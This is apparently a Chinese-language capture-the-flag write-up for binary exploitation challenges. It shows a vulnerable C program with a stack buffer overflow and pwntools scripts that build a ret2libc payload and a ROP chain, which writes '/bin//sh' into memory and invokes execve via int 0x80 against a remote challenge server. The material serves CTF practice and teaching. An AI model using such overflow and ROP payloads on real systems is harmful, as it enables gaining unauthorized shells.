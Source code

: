 ```
    payload='A'*offset+p32(libc.symbols['system'])+p32(0xdeadbeef)+p32(bash)
    p.sendline(payload)
    p.interactive();
```
    

## easyrop
```c
#include <stdio.h>

int main(){
    char buf[20];
    puts("ROP is easy is'nt it ?");
    printf("Your input :");
    fflush(stdout);
    read(0,buf,100);
}
```
保护只开了NX

但是发现下载的demo是static编译的
so

>ROPgadget --binary pwn3

//也可以用one_gadget


拥有了大量gadget的我们可以利用各种gadget
构造一次systemcall

![](/int0x80.png)

```python
from pwn import *
p=remote('121.42.189.18',10005)
p.recv()
bss=ELF('./pwn3').bss()
int80=0x080493e1
pppr=0x0806e850
eax_ret=0x080bae06
elf=ELF('./pwn3')
offset=32
pop_edx_ret=0x0806e82a
mov_esp_exc_ret=0x080bb066
mov_ptr_eax_edx_ret=0x0807b301
payload=offset*'A'+p32(pop_edx_ret)+p32(0x6e69622f)+p32(eax_ret)+p32(bss)+p32(mov_ptr_eax_edx_ret)+p32(pop_edx_ret)+p32(0x68732f2f)+p32(eax_ret)+p32(bss+4)+p32(mov_ptr_eax_edx_ret)+p32(eax_ret)+p32(11)+p32(pppr)+p32(0)+p32(0)+p32(bss)+p32(int80)
p.sendline(payload)
p.interactive();
```

后来发现同类的题目可以用one_gadget秒杀。。。
